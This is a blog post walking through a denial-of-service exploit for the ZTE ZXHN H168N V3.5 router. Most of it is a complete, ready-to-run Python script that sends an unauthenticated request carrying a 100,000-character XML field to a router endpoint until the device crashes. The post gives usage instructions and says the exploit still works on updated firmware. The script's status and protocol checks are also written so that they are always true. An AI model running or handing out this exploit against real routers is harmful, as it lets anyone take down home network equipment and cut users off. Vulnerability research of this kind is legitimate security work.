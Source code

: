 ```yaml
---
title: "Exploit Writing (KILLx108): Kill ZTE Router "
classes: wide
header:
  teaser: /assets/images/clchdo96yeclu0jp8gj7mf54a.png
ribbon: gray
description: "Exploit for unknown vulnerability in `ZXHN H168N V3.5` to kill the device with one request."
categories:
  - IoT Exploitation
tags:
  - IoT Exploitation
toc: true
---
```


# Introduction
After we had a lot  of information and understand where is the bug in the previous research (You can read it from [here](https://zeyadazima.com/iot%20exploitation/killzte/)). Now, It's time to exploit it and create an exploit.

# The Exploit
It's time to explain how to exploit it. So, previously it seems to be parsing the `XML` request we send and exposing information about `Objects/Parameters` and their values. and whatever `XML`  request we send it's back with the same information. But, even tho we can not access these information if we are not authenticated. But, It's still parsing our request if we are not authenticated. So, Let's try our large value again here. And if we did that we will triage a crash in the router.

- First we imported the needed libraries we going to use
```
import random
import string
import sys
import urllib3
import requests
```

- `requests`: to send our request exploit to the target.
- `urllib3`: I used it here to diable the warings.
- `sys`: to take arguments from the user through the command line.
- `string`: to use it for the random library in generating the payload.
- `random`: to create a payload with random strings from the `strings` library.
<br>
- Second part a function taking 2 arguments
```
def attack(target, porot):

    url = f"{porot}://{target}/common_page/Localnet_WlanBasicAd_WLANSSIDConf_EncryOption_lua.lua"
    try:
        print("[+] Check if the target is alive")
        check = requests.get(url, timeout=10, verify=False)
        if check.status_code == 200 or 301 or 302 or 303:
            print("[+] Target is alive")
            print("[+] Sending request...")
            create = string.ascii_uppercase
            payload = ''.join(random.choice(create) for i in range(100000))
            cookies = {"_TESTCOOKIESUPPORT": "1"}
            Headers = {"Connection": "close",
                       "sec-ch-ua": "\"Google Chrome\";v=\"87\", \" Not;A Brand\";v=\"99\", \"Chromium\";v=\"87\"",
                       "Accept": "application/xml, text/xml, */*; q=0.01", "X-Requested-With": "XMLHttpRequest",
                       "sec-ch-ua-mobile": "?0",
                       "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36",
                       "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8",
                       "Origin": "https://192.168.1.1", "Sec-Fetch-Site": "same-origin", "Sec-Fetch-Mode": "cors",
                       "Sec-Fetch-Dest": "empty", "Referer": "https://"+target+"/", "Accept-Encoding": "gzip, deflate",
                       "Accept-Language": "en-US,en;q=0.9"}
            Data = f"<ajax_response_xml_root><INSTIDENTITY>{payload}</INSTIDENTITY></ajax_response_xml_root>"
```

Basically, This function will take 2 arguments which is `protocol`, ethier is `http` or `https` and the `target` you want to exploit it. Then, it will check if the target alive and responded or no. After that in the following lines:
```
create = string.ascii_uppercase
payload = ''.join(random.choice(create) for i in range(100000))
```
it will create a random `100000` length of strings to send it with the request and crash the device.

- Full code:

```
import random
import string
import sys
import urllib3
import requests


urllib3.disable_warnings()


def attack(target, porot):

    url = f"{porot}://{target}/common_page/Localnet_WlanBasicAd_WLANSSIDConf_EncryOption_lua.lua"
    try:
        print("[+] Check if the target is alive")
        check = requests.get(url, timeout=10, verify=False)
        if check.status_code == 200 or 301 or 302 or 303:
            print("[+] Target is alive")
            print("[+] Sending your request...")
            create = string.ascii_uppercase
            payload = ''.join(random.choice(create) for i in range(100000))
            cookies = {"_TESTCOOKIESUPPORT": "1"}
            Headers = {"Connection": "close",
                       "sec-ch-ua": "\"Google Chrome\";v=\"87\", \" Not;A Brand\";v=\"99\", \"Chromium\";v=\"87\"",
                       "Accept": "application/xml, text/xml, */*; q=0.01", "X-Requested-With": "XMLHttpRequest",
                       "sec-ch-ua-mobile": "?0",
                       "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36",
                       "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8",
                       "Origin": "https://192.168.1.1", "Sec-Fetch-Site": "same-origin", "Sec-Fetch-Mode": "cors",
                       "Sec-Fetch-Dest": "empty", "Referer": "https://"+target+"/", "Accept-Encoding": "gzip, deflate",
                       "Accept-Language": "en-US,en;q=0.9"}
            Data = f"<ajax_response_xml_root><INSTIDENTITY>{payload}</INSTIDENTITY></ajax_response_xml_root>"
            try:
                att = requests.post(url, headers=Headers, cookies=cookies, data=Data, verify=False, timeout=5)
                print("[-] Target is not Vulnerable")
                sys.exit()
            except requests.exceptions.Timeout:
                print("[+] Target vulnerable and dead now")

            print("[+] Exploit by: Zeyad Azima")

        else:
            print("[-] Your Target is not Alive")
    except Exception as error:
        print("[-]", error)
try:
    if sys.argv[2] == "http" or "https":
        attack(sys.argv[1], sys.argv[2])
    else:
        print("[-] Please enter a valid protocol (http or https)")

except IndexError:
    print("[-] Please Set your target \n ex: exploit.py target protocol")
```

- Usage

```
python3 exploit.py IP http/s
```

![7af704b3c8e1921061c437d260c30ccf.png](/assets/images/7af704b3c8e1921061c437d260c30ccf.png)

# Conclusion
At the end, it was a simple bug, But it's lead to take the device down. The exploit works with the other new and updated versions. You can see the full code here on github.

By: [Zeyad Azima](https://www.linkedin.com/in/zer0verflow/)  
Source: Vsociety

